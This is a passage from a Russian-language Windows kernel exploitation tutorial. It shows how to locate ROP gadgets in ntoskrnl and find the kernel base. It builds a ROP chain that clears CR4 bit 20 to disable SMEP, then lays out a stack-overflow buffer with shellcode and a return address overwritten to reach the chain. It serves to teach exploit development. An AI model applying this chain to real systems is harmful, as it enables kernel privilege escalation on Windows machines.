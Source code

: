 ![](.gitbook/assets/62/23.png)

```console
RP-WIN-X86.EXE -F NTOSKRNL.EXE -R 5 > PEPE.TXT
```

Хорошо. C помощью этой команды мы сохраним все гаджеты в текстовом файле с именем **PEPE.TXT**.

![](.gitbook/assets/62/24.png)

Это большой файл. Но это и мощный инструмент, который служит и находит гаджеты в любом модуле.

Чтобы найти базу **NT**, мы используем **ENUMDEVICEDRIVERS**, который возвращает список с именами и базами всех драйверов. Обычно **NT** является первым, но мы можем сравнивать имя в цикле, пока не найдем нужный нам модуль и не найдем базу для него. Я вижу, что если я выполню скрипт после импорта отсутствующих модулей, скрипт будет работать и печатать базу **NT**.

![](.gitbook/assets/62/25.png)

Короче говоря, я обнаружил, что эти гаджеты, предназначенные для чтения регистра **CR4**, помещают в регистр **ECX** значение **0xFFEFFFFF**, затем исполняется инструкция **AND EAX ECX** которая сбрасывает **20** бит, а затем сохраняют его снова в **CR4**. Это и есть наш **ROP**.

```python
INPUT = STRUCT.PACK("<I", NT + 0X11FC10) # MOV EAX, CR4 - RET
INPUT += STRUCT.PACK("<I", 0X75757575) # JUNK
INPUT += STRUCT.PACK("<I", 0X76767676) # JUNK
INPUT += STRUCT.PACK("<I", NT + 0X51976F) # POP ECX; RET
INPUT += STRUCT.PACK("<I", 0XFFEFFFFF) # TO DISABLE SMEP
INPUT += STRUCT.PACK("<I", NT + 0X50095C) # AND EAX,ECX; RET
INPUT += STRUCT.PACK("<I", NT + 0X22F2DA) # MOV CR4,EAX; RET4
```

Проблема в том, что я не могу поместить шеллкод под адресом возврата просто так, потому что там под адресом возврата находится указатель на источник, который читается, и если я перезапишу его, то может случиться сбой. Нужно сделать всё правильно.

![](.gitbook/assets/62/26.png)

Я вижу что, передавая только один **DWORD** адреса возврата, перезаписывается указатель на **USERBUFFER**, который является источником, так что не так-то просто поместить **ROP** внизу.

```python
DATA = SHELLCODE + ((0X828 -LEN(SHELLCODE)) * "A") #SHELLCODE
DATA+= STRUCT.PACK("<I", NT + 0X51976F) #RETURN (POP ECX-RET)
DATA+= STRUCT.PACK("<L",INT(BUF)+0X82C) #PUNTERO A SOURCE QUE PISO
DATA+= INPUT # ROP
DATA+= STRUCT.PACK("<L",0X0BAD0B0B0 ) # FIN
```

Одной из возможностей было бы перезаписать этот указатель указателем на тот же шеллкод ниже. В этом случае у меня есть источник. Когда код перезаписывает его, он начинает указывать на начало моего шеллкода + **0x82C**, где находится **ROP**, поэтому код продолжает копировать его туда же ниже и ничего не сломается. Также я перезаписываю адрес возврата с помощью гаджета **POP ECX** - **RET**, чтобы при переходе к исполнению программа пропускала этот указатель на источник и переходила прямо к **ROP**, который был ниже.
